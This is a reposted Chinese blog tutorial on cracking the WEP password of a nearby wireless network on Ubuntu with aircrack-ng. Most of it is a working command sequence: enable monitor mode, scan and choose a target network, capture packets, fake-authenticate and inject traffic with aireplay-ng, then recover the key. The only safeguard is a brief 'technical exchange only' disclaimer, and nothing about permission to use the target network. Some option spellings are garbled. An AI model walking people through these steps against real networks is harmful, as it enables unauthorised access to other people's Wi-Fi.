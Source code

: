 ```yaml
---
title: ubuntu下无线网络的破解
author: 悟道
layout: post
permalink: /?p=515
categories:
  - 转载
---
```

<table>
  <tr cellpadding=0><td>
    热度:
  </td><td cellpadding=0><img src='http://210.75.224.29/wordpress/wp-content/plugins/statpresscn/images/sun.gif' width=10 height=10 border=0 /></td><td cellpadding=0><img src='http://210.75.224.29/wordpress/wp-content/plugins/statpresscn/images/sun.gif' width=10 height=10 border=0 /></td><td cellpadding=0><img src='http://210.75.224.29/wordpress/wp-content/plugins/statpresscn/images/sun.gif' width=10 height=10 border=0 /></td><td cellpadding=0><img src='http://210.75.224.29/wordpress/wp-content/plugins/statpresscn/images/sun.gif' width=10 height=10 border=0 /></td><td cellpadding=0><img src='http://210.75.224.29/wordpress/wp-content/plugins/statpresscn/images/sun_dark.gif' width=10 height=10 border=0 /></td></tr>
</table>

想必搞过破解的朋友们都会知道bt3  bt4等linux下的无线破解工具吧，在ubuntu系统下同样有着一款破解功能强大的工具，那就是aircrack-ng。放这篇文章出来只是做技术上的交流，奶牛可不希望谁用这个做坏事儿哦~~~嘿嘿，破解开始咯：

测试平台 Y450  T6600 2.1G  ubuntu 10.04 成功

1.下载安装aircrack-ng，奶牛直接从源中安装的。

sudo apt-get install aircrack-ng

2.启动无线，这里奶牛需要说明一下，很多朋友的无线可能在windows系统中是禁用或者是系统自带的电源管理系统中未开启无线的，这种情况下需 要先在win状态下开启之后才能在ubuntu中开启无线。开启完成后进入ubuntu ，开一个终端，ifconfig -a看看wlan是否开启，开启正常可进行下一步。

3.准备工作完成，开始破解。开启终端①，

<span>sudo airmon-ng start wlan0</span>

sudo airodump-ng mon0

这时会看到无线的地址出现在屏幕上，这里有显示它们的mac地址以及所在频道。ok，ctrl+c退出，在这里我们选择类型为wep的无线为破解对象。我们需要记录它所在的频道以及mac地址。

4.开启终端②

#原文中未使用双下划线， 修改之。

<span>sudo airodump-ng &#8211;chanel 频道 &#8211;bssid 目标主机mac -w wep mon0<br /> </span>

这里的wep为默认的存包文件的名字，可以更改。

<span> </span>5.开启终端③

<span>sudo aireplay-ng -1 0 -a 目标mac -h 本机MAC mon0</span>

（本机的mac可以开启一个新的终端用ifconfig -a来查询）

这时会有成功字样显示，如果没有显示可能就是目标不支持或者系统部稳定，需要更换目标了。显示成功后进行下步。

&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8211;

不知道这一步的作用是什么， 运行了几次都未成功， 不过不影响破解

6.继续输入<span>sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b 目标MAC -h 本机MAC mon0 </span>

<span>此时终端</span>②中的数据会增长很快，当数据到达5000的时候就可以破解了。

7.开启终端<span> </span>④

sudo aircrack-ng wep*.cap

这时就开始破解了，如果你进行过多组，可能会有多组结果，你可以用数字123进行选择，如果不出意外你已经破解出来这组无线的密码了。

&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8211;

破解出来得到冒号分割的密码，去掉冒号， 重启电脑试验密码是否正确。

8.最后<span> sudo airmon-ng stop mon0结束监控过程</span>

<span>(</span><span> sudo airomon-ng check可以查看你开启了多少监控，如果运行多组的时候可以查看后选择关闭</span><span>)。 </span>

转载：http://www.nenew.net/ubuntu-aircrack-ng.html （略有修改）
